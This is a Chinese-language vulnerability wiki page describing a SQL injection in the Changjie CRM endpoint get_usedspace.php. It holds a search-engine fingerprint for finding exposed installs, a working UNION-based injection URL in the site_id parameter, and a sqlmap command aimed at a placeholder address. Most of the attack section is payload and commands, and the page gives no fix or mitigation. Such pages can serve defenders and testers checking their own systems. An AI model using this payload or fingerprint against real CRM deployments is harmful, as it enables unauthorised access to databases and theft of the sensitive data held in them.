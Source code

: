 # 畅捷CRM get_usedspace.php SQL注入漏洞

## 漏洞描述

畅捷CRM get_usedspace.php存在SQL漏洞，通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>畅捷CRM</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="畅捷CRM"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1633506073821-57c99e5c-e655-49d0-a6de-845e13e971f8.png)

验证POC

```php
/webservice/get_usedspace.php?site_id=-1159 UNION ALL SELECT CONCAT(0x76756c6e,0x76756c6e,0x76756c6e)--
```

![img](/assets/PeiQi-Wiki/img/1633511742259-b57303f1-0530-477e-a86f-8a403927fe15.png)

使用Sqlmap验证漏洞

```php
sqlmap -u "http://xxx.xxx.xxx.xxx:8000/webservice/get_usedspace.php?site_id=1" -p site_id
```

![img](/assets/PeiQi-Wiki/img/1633511844026-09d2cb14-ca2e-4c20-be83-f634144393e2.png)